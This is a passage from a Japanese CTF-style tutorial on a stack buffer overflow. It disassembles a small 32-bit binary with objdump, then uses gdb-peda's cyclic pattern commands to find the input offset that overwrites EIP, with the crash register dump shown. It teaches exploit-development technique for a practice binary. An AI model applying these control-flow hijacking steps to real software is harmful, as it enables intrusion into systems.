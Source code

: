 とりあえず逆アセンブルしてみましょう。

```
# $ objdump -d -M intel --no a.out > asm.s
```

main関数のところをみるとこんな感じになっています。

```
00000626 <main>:
 626: lea    ecx,[esp+0x4]
 62a: and    esp,0xfffffff0
 62d: push   DWORD PTR [ecx-0x4]
 630: push   ebp
 631: mov    ebp,esp
 633: push   ebx
 634: push   ecx
 635: call   66e <__x86.get_pc_thunk.ax>
 63a: add    eax,0x19c6
 63f: sub    esp,0x8
 642: lea    edx,[eax+0x20]
 648: push   edx
 649: lea    edx,[eax-0x1900]
 64f: push   edx
 650: mov    ebx,eax
 652: call   440 <printf@plt>
 657: add    esp,0x10
 65a: call   5f0 <input>
 65f: mov    eax,0x0
 664: lea    esp,[ebp-0x8]
 667: pop    ecx
 668: pop    ebx
 669: pop    ebp
 66a: lea    esp,[ecx-0x4]
 66d: ret
```

main関数では0x00000652でprintfを、0x0000065aでinputという関数を呼び出していることが分かります。

とりあえずmain関数のアドレスがわかったので、EIPをmain関数に設定してみましょう。

まずEIPが入力のどの部分で上書きされるか調べます。
gdb-pedaにはpattcとpattoという便利なコマンドがあります。

```
# $ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ pattc 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /home/vagrant/projects/ctf/challenge_book/test/a.out
buffer: 0x56557020
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
 [----------------------------------registers-----------------------------------]
EAX: 0xffffc556 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA\n")
EBX: 0x41416e41 ('AnAA')
ECX: 0xf7fae87c --> 0x0
EDX: 0xffffc556 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA\n")
ESI: 0x1
EDI: 0xf7fad000 --> 0x1b2db0
EBP: 0x2d414143 ('CAA-')
ESP: 0xffffc570 ("ADAA;AA)AAEAAaAA0AAFAAbA\n")
EIP: 0x41284141 ('AA(A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41284141
```